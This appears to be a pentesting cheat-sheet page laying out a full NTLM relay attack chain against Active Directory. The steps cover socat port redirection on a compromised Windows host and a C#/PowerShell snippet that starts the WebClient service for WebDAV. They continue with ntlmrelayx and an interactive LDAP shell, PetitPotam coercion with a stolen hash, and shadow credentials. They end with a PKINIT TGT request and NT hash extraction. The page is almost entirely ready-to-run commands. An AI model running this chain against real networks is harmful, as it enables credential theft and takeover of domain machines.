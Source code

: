```yaml
---
title: "NTLM Relay Attack"
date: 2024-8-3
tags: ["ntlmreplay", "PetitPotam", "active driectory", "ad", "Windows", "adcs", "webdav", "ntlm", "PKINIT", "tgt"]
---
```


### 1. Run socat to redirect traffic (In Windows Target)

<div>

```console
# Upload socat.zip and unzip
Add-Type -AssemblyName System.IO.Compression.FileSystem; [System.IO.Compression.ZipFile]::ExtractToDirectory('c:\programdata\socat.zip', 'c:\programdata')
```

```console
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80
```

</div>

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

### 2. Enable webdav (In Windows Target)

<div>

```console
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
			[FieldOffset(0)]
			internal UInt64 DataPointer;
			[FieldOffset(8)]
			internal uint Size;
			[FieldOffset(12)]
			internal int Reserved;
		}
 
		public static void startService(){
			Guid webClientTrigger = new Guid(0x22B6D684, 0xFA63, 0x4578, 0x87, 0xC9, 0xEF, 0xFC, 0xBE, 0x66, 0x43, 0xC7);
 
			long handle = 0;
			uint output = EventRegister(ref webClientTrigger, IntPtr.Zero, IntPtr.Zero, ref handle);
 
			bool success = false;
 
			if (output == 0){
				EVENT_DESCRIPTOR desc = new EVENT_DESCRIPTOR();
				unsafe
				{
					uint writeOutput = EventWrite(handle, ref desc, 0, null);
					success = writeOutput == 0;
					EventUnregister(handle);
				}
			}
		}
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventRegister(ref Guid guid, [Optional] IntPtr EnableCallback, [Optional] IntPtr CallbackContext, [In][Out] ref long RegHandle);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern unsafe uint EventWrite(long RegHandle, ref EVENT_DESCRIPTOR EventDescriptor, uint UserDataCount, EventData* UserData);
 
		[DllImport("Advapi32.dll", SetLastError = true)]
		public static extern uint EventUnregister(long RegHandle);
	}
}
"@

$compilerParameters = New-Object System.CodeDom.Compiler.CompilerParameters
$compilerParameters.CompilerOptions="/unsafe"
Add-Type -TypeDefinition $Source -Language CSharp -CompilerParameters $compilerParameters
[JosL.WebClient.Starter]::startService()

```

</div>

<br>

<div>

```console
# Run enable_webdav.ps1
C:\programdata\enable_webdav.ps1
```

</div>

### 3. Start ntlmrelayx listener (In Local Linux)

#### Get impacket fork : Add Shadow Credentials Commands to Ntlmrelayx's Interactive LDAP Shell

<div>

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
```

```console
cd impacket
```

```console
git checkout -b remotes/origin/interactive-ldap-shadow-creds
```

```console
python3 -m venv test
```

```console
source test/bin/activate
```

```console
pip install .
```

```console
pip3 install impacket pyOpenSSL==24.0.0
```

</div>

#### Run ntlmrelayx

<div>

```console
proxychains4 examples/ntlmrelayx.py -t ldaps://<DC> --delegate-access -i
```

</div>

### 4. Run PetitPotam (In Local Linux)

<div>

```console
proxychains4 python3 PetitPotam.py -u <USER> -hashes :<HASH> <SOCAT_HOSTNAME>@8090/test <SOCAT_LISTENER_IP> -pipe all
```

</div>

<small>*Ref: [PetitPotam](https://github.com/topotam/PetitPotam)*</small>

### 5. Connect to LDAP shell (In Local Linux)

<div>

```console
rlwrap nc 127.0.0.1 11000
```

```console
clear_shadow_creds <SOCAT_HOSTNAME>$
```

```console
# Take Note: pfx path and password
set_shadow_creds <SOCAT_HOSTNAME>$
```

</div>

### 6. Request TGT using pfx file (In Local Linux)

<div>

```console
proxychains4 python3 gettgtpkinit.py '<DOMAIN>/<SOCAT_HOSTNAME>$' <SOCAT_HOSTNAME>.ccache -cert-pfx <RANDOM_CHARS>.pfx -pfx-pass <RANDOM_CHARS_PASSWORD> -dc-ip <DC>
```

</div>

<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

### 7. Get NT Hash (In Local Linux)

<div>

```console
proxychains4 python3 getnthash.py '<DOMAIN>/<SOCAT_HOSTNAME>$' -key <AS_REP_ENC_KEY>
```

</div>

<br>